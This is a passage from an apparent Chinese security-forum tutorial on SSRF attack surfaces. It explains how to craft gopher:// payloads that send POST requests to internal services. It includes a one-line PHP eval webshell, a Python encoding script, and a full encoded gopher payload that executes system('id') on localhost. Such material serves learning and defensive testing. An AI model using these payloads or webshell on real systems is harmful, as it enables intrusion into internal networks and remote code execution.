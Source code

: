 常见攻击面

- 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的 banner 信息
- 攻击运行在内网或本地的应用程序（比如溢出）
- 对内网 WEB 应用进行指纹识别，通过访问默认文件实现
- 攻击内外网的 web 应用，主要是使用 GET 参数就可以实现的攻击（比如 Struts2，sqli 等）
- 利用 file 协议读取本地文件等

#### 扩展攻击面

[参考文章](https://www.secquan.org/Discuss/1069103#%E6%89%A9%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2)

主要讲同gopher协议一起运用的攻击面，gopher协议可以说是非常的万金油了
gopher协议的扩展攻击面在之前长亭的文章中已经写得很详细了
我这里主要讲一下如何通过抓包去构造，以及其中的一些具体细节。

### 通过gopher发送post数据包[#](https://www.secquan.org/Discuss/1069103#%E9%80%9A%E8%BF%87gopher%E5%8F%91%E9%80%81post%E6%95%B0%E6%8D%AE%E5%8C%85)

gopher协议是可以发送post包的，怎么发送呢
抓包编码构造即可
比如，内网有一个exp.php

```
<?php 
eval($_POST['a']);
?>
```

那我们在本地搭建环境访问并抓包
![file](http://secquan.zzyuncheng.com/087c04cd3ee92621967d245941dc7cad.png-quanzi)

找到这个请求包并以原始数据显示

![file](http://secquan.zzyuncheng.com/79e070535a35afe53d550e69bf94223a.png-quanzi)
写个脚本编码一下

```
import urllib
from urllib.parse import quote
s='xxxx'
len=len(s)
p=''
for i in range(len)[::2]:
    p+=urllib.parse.quote(chr(int(s[i:i+2],16)))
print(p)
```

最终得到的payload为

```
gopher://127.0.0.1:80/_POST%20/exp.php%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AUser-Agent%3A%20Mozilla/5.0%20%28Linux%3B%20Android%209.0%3B%20SAMSUNG-SM-T377A%20Build/NMF26X%29%20AppleWebKit/537.36%20%28KHTML%2C%20like%20Gecko%29%20Chrome/72.0.3626.109%20Mobile%20Safari/537.36%0D%0AAccept%3A%20text/html%2Capplication/xhtml%2Bxml%2Capplication/xml%3Bq%3D0.9%2C%2A/%2A%3Bq%3D0.8%0D%0AAccept-Language%3A%20zh-CN%2Czh%3Bq%3D0.8%2Czh-TW%3Bq%3D0.7%2Czh-HK%3Bq%3D0.5%2Cen-US%3Bq%3D0.3%2Cen%3Bq%3D0.2%0D%0AAccept-Encoding%3A%20gzip%2C%20deflate%0D%0AReferer%3A%20http%3A//127.0.0.1/exp.php%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2025%0D%0AConnection%3A%20keep-alive%0D%0AUpgrade-Insecure-Requests%3A%201%0D%0A%0D%0Aa%3Dsystem%2528%2522id%2522%2529%253B
```
